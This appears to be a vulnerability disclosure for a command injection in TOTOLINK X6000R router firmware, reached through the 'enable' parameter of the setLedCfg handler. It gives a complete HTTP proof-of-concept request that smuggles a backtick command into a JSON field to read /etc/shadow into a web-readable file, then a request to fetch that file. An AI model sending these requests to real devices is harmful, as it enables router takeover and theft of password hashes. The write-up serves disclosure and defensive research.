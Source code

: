 # TOTOLINK X6000R V9.4.0cu.852_B20230719 Command Injection

## Product Information

Product: TOTOLINK X6000R
Firmware Version: V9.4.0cu.852_B20230719
Manufacturer's website information：https://www.totolink.net/
Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/247/ids/36.html

![image-20231029014112742](uploads/image-20231029014112742.png)

## Vulnerability Description

The `enable` parameter of `setLedCfg` in `shttpd` is controllable, and there is no verification of the input `enable` parameter. The `enable` parameter will then be spliced into a command and executed, which will eventually lead to command injection.

### POC

injection the command "(ls&&id&&cat /etc/shadow)>/web/111.txt"

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 127.0.0.1
Content-Length: 77
sec-ch-ua: "Chromium";v="95", ";Not A Brand";v="99"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://127.0.0.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1/advance/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close

{"enable":"1`(ls&&id&&cat /etc/shadow)>/web/111.txt`","topicurl":"setLedCfg"}
```

![image-20231029014639403](uploads/image-20231029014639403.png)

check the result：

```http
GET /111.txt HTTP/1.1
Host: 127.0.0.1
sec-ch-ua: "Chromium";v="95", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
```

![image-20231029014812633](uploads/image-20231029014812633.png)

![image-20231029014856908](uploads/image-20231029014856908.png)

## Analysis

`sub_411F90`will handle the `setLedCfg` request, this function firstly gets `enable` value from the request body, and then pass to `Uci_Set_Str` function,

![image-20231029015148809](uploads/image-20231029015148809.png)

and then pass to `CsteSystem` function,

![image-20231029020121459](uploads/image-20231029020121459.png)

![image-20231029020152055](uploads/image-20231029020152055.png)

and then lead to command injection.

![image-20231029020413159](uploads/image-20231029020413159.png)